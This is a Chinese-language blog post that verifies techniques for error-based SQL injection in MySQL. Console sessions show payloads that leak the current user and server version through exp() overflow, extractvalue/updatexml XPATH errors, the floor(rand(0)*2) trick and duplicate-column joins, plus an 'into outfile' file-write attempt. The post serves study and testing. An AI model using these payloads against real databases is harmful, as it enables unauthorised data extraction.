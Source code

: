 ```yaml
---
title: "Mysql一些有趣的用法"
date: 2017-03-06 15:06:23 +0800

categories: 转载验证
tags: [mysql, sql注入, 网络安全]
---
```


1. 查看BIGIN最大值以及数据溢出

    ```bash
    mysql> select ~0;
    +----------------------+
    | ~0                   |
    +----------------------+
    | 18446744073709551615 |
    +----------------------+
    1 row in set (0.00 sec)

    mysql> select ~0+1;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(~(0) + 1)'
    mysql>
    ```
    > 在mysql **5.5** 之前，整形溢出是不会报错的

1. 查看用户,以及查询返回值逻辑运算

    ```bash
    mysql> select user();
    +----------------+
    | user()         |
    +----------------+
    | root@localhost |
    +----------------+
    1 row in set (0.00 sec)

    mysql> select * from (select user()) x;
    +----------------+
    | user()         |
    +----------------+
    | root@localhost |
    +----------------+
    1 row in set (0.00 sec)

    mysql> select (select * from (select user()) x);
    +-----------------------------------+
    | (select * from (select user()) x) |
    +-----------------------------------+
    | root@localhost                    |
    +-----------------------------------+
    1 row in set (0.00 sec)

    mysql> select !(select * from (select user()) x);
    +------------------------------------+
    | !(select * from (select user()) x) |
    +------------------------------------+
    |                                  1 |
    +------------------------------------+
    1 row in set (0.00 sec)

    mysql> select !(select * from (select user()) x) + 1;
    +----------------------------------------+
    | !(select * from (select user()) x) + 1 |
    +----------------------------------------+
    |                                      2 |
    +----------------------------------------+
    1 row in set (0.00 sec)

    mysql>
    ```

1. 使用 [exp](http://www.w3resource.com/mysql/mathematical-functions/mysql-exp-function.php) 精度溢出

    ```bash
    mysql> select exp(709);
    +-----------------------+
    | exp(709)              |
    +-----------------------+
    | 8.218407461554972e307 |
    +-----------------------+
    1 row in set (0.00 sec)

    mysql> select exp(710);
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(710)'
    mysql>
    ```

    > MySQL [EXP()](http://www.w3resource.com/mysql/mathematical-functions/mysql-exp-function.php) returns the value of the base of natural logarithm number e, raised to the power of a number specified as argument.

1. SQL注入:

    ```bash
    mysql> select exp(~(select * from (select user()) x));
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select `x`.`user()` from (select user() AS `user()`) `x`)))'
    ```
    等同于
    ```bash
    mysql> select exp(~1);
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~(1))'
    ```

    ```bash
    mysql> select (select (!x-~0) from (select (select user()) x) a);
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not(`a`.`x`)) - ~(0))'
    ```
    > 在mysql **5.5.47** 可以在报错中返回查询结果,而在mysql **>5.5.53** 时，则不能返回查询结果

1. 查看mysql 版本

    ```bash
    mysql> select @@version;
    +-------------------------+
    | @@version               |
    +-------------------------+
    | 5.7.17-0ubuntu0.16.10.1 |
    +-------------------------+
    1 row in set (0.00 sec)

    mysql> select NAME_CONST(version(),1);
    +-------------------------+
    | 5.7.17-0ubuntu0.16.10.1 |
    +-------------------------+
    |                       1 |
    +-------------------------+
    1 row in set (0.00 sec)

    mysql>
    ```
1. xpath语法错误,暴露查询信息

    ```bash
    mysql> select extractvalue(1, (select @@version));
    ERROR 1105 (HY000): XPATH syntax error: '.17-0ubuntu0.16.10.1'
    mysql> select extractvalue(1,concat(0x7e,(select @@version),0x7e));
    ERROR 1105 (HY000): XPATH syntax error: '~5.7.17-0ubuntu0.16.10.1~'
    mysql> select updatexml(1,concat(0x7e,(select @@version),0x7e),1);
    ERROR 1105 (HY000): XPATH syntax error: '~5.7.17-0ubuntu0.16.10.1~'
    mysql>
    ```
    > MySQL [CONCAT()](http://www.w3resource.com/mysql/string-functions/mysql-concat-function.php)  function is used to add two or more strings.

1. 随机数漏洞
    ```bash
    mysql> select rand(0);
    +---------------------+
    | rand(0)             |
    +---------------------+
    | 0.15522042769493574 |
    +---------------------+
    1 row in set (0.00 sec)

    mysql> select floor(rand(0)*2);
    +------------------+
    | floor(rand(0)*2) |
    +------------------+
    |                0 |
    +------------------+
    1 row in set (0.00 sec)

    mysql>
    ```
    > rand(0)是个稳定的序列, floor(rand(0)\*2)则会固定得到011011...的序列

1. 表重复+JOIN 爆列名

    ```bash
    mysql> select * from (select * from information_schema.tables a join information_schema.tables b) c;
    ERROR 1060 (42S21): Duplicate column name 'TABLE_CATALOG'
    mysql>
    ```

> 本文为验证. 原文为: [\[Web安全\]MYSQL报错注入的一点总结](https://xianzhi.aliyun.com/forum/read/762.html)

---
使用exp创建文件,但是(高版本mysql)必须进行安全配置 [^1]

```bash
mysql> select exp(~(select * from(select 'hello') x)) into outfile '/tmp/exp.txt';
ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
mysql>
```
---
## 参考文档
- [How to create/write a file using exp() in mySQL](http://stackoverflow.com/questions/37184480/how-to-create-write-a-file-using-exp-in-mysql)

[^1]: http://stackoverflow.com/questions/37184480/how-to-create-write-a-file-using-exp-in-mysql
